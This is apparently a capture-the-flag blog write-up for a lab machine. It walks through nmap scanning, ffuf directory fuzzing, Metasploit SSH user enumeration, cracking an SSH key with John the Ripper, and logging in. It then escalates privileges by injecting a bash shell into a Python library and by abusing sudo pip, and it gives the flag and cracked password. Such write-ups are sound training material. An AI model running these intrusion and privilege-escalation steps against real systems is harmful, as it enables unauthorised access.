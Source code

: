 ```yaml
---
layout: single
title: Writeup - Penetration Testing Phases: Scanning, Enumeration, and Exploitation
excerpt: "A detailed walkthrough of the scanning, enumeration, and exploitation phases during a penetration test, including the use of tools like Nmap, ffuf, and Metasploit."
date: 2024-10-24
classes: wide
header:
  teaser: /assets/images/htb-writeup-writeup/pen_test_logo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - WriteUp
#tags:
 # - Penetration Testing
  #- Nmap
  #- ffuf
  #- Metasploit
---
```


![](/assets/images/htb-writeup-writeup/lupinone_logo.png)

This writeup details the steps taken during the scanning, enumeration, and exploitation phases of a penetration test. The target machine is analyzed using tools like Nmap, ffuf, and Metasploit, leading to the discovery of hidden files, user enumeration, and privilege escalation.

## Summary

This writeup covers the following phases of a penetration test:
   - **Scanning**: Using Nmap to identify open ports and services running on the target machine.
   - **Enumeration**: Discovering hidden directories and files using ffuf and validating users with Metasploit.
   - **Exploitation**: Gaining access to the system via SSH using a decrypted private key and escalating privileges to root.

## Tools/Blogs Used

- **Nmap**: Used for port scanning and service enumeration.
- **ffuf**: Utilized for directory fuzzing and discovering hidden files.
- **Metasploit**: Employed for user enumeration.
- **John the Ripper**: Used to decrypt an SSH private key.
- **Python**: Exploited a Python script to escalate privileges.

---

## Phase 1: Scanning

Nmap is used to identify open ports and the services running on them. The following command is executed:

nmap -Pn -sV -O -p- -T4 -sC 10.0.0.5
## Phase 1: Scanning

The scan reveals two open ports:
   - **Port 22**: Running OpenSSH 8.4p1.
   - **Port 80**: Running Apache/2.4.48.

Additionally, the operating system is identified as a Linux version between 4.X and 5.X.

---

## Phase 2: Enumeration

### Initial Enumeration
From the initial Nmap scan, the `robots.txt` file is discovered, which includes the path `/~myfiles`. However, accessing this path results in a 404 error.

### Directory Enumeration
To gather more information, directory enumeration is performed using the following command:

nmap -sV -p80 --script=http-enum 10.0.0.5
This scan reveals two additional directories: /image/ and /manual/, though they do not contain relevant information.

### Fuzzing with ffuf
Since older versions of Apache use the tilde (~) to refer to a user's root directory, ffuf is used to fuzz the root directory:

ffuf -c -u http://10.0.0.5/~FUZZ -w /usr/share/wordlists/dirb/common.txt
This reveals an interesting path: /~secret, which contains a hint about a hidden SSH private key and a potential username, icex64.

### Hidden File Discovery
To find hidden files in the /~secret directory, the following command is executed:

ffuf -c -u http://10.0.0.5/~secret/.FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fc 403 -e .txt,.html,.php,.js
This reveals a file named mysecret.txt. The existence of the user icex64 is confirmed using Metasploit's ssh_enumusers module:

use auxiliary/scanner/ssh/ssh_enumusers

### Decrypting the Hidden Message
The content of mysecret.txt is encrypted. Using dcode.fr, the message is identified as Base58 encoded. Decoding it reveals an OpenSSH private key, which is saved to key.txt.

### Cracking the SSH Key
The private key is password-protected. To crack it, ssh2john is used to extract the hash:

ssh2john key.txt > hash
John the Ripper is then used to crack the hash with the fasttrack wordlist:

john --wordlist=/usr/share/wordlists/fasttrack.txt hash
The password P@55w0rd! is successfully retrieved.

### Phase 3: Exploitation
### Gaining SSH Access
The permissions of key.txt are adjusted to prevent the "Unprotected Private Key" error:

chmod 700 key.txt
SSH access is then established using the private key and password:

ssh -i key.txt icex64@10.0.0.5
Finding the Flag
Once authenticated, the flag is located:

Flag: 3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
Privilege Escalation
To escalate privileges, the following commands are executed to gather more information:

uname -a
sudo -l
A Python script named heist.py, owned by the user arsene, is discovered. The script uses the webbrowser library to open a URL. By editing the webbrowser.py file, a bash shell is injected:

nano /usr/lib/python3.9/webbrowser.py
The following line is added:

os.system("/bin/bash")
The script is then executed to gain access as the arsene user:

sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
Root Access
After gaining access as arsene, the .secret file is found, revealing the user's password. The pip binary is then exploited to escalate privileges to root:

TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
Root access is successfully obtained.

### Conclusion
This penetration test demonstrates the importance of thorough scanning, enumeration, and exploitation techniques. By leveraging tools like Nmap, ffuf, and Metasploit, and exploiting misconfigurations in scripts and binaries, full control of the target machine was achieved.

###References:

Nmap

ffuf

Metasploit

John the Ripper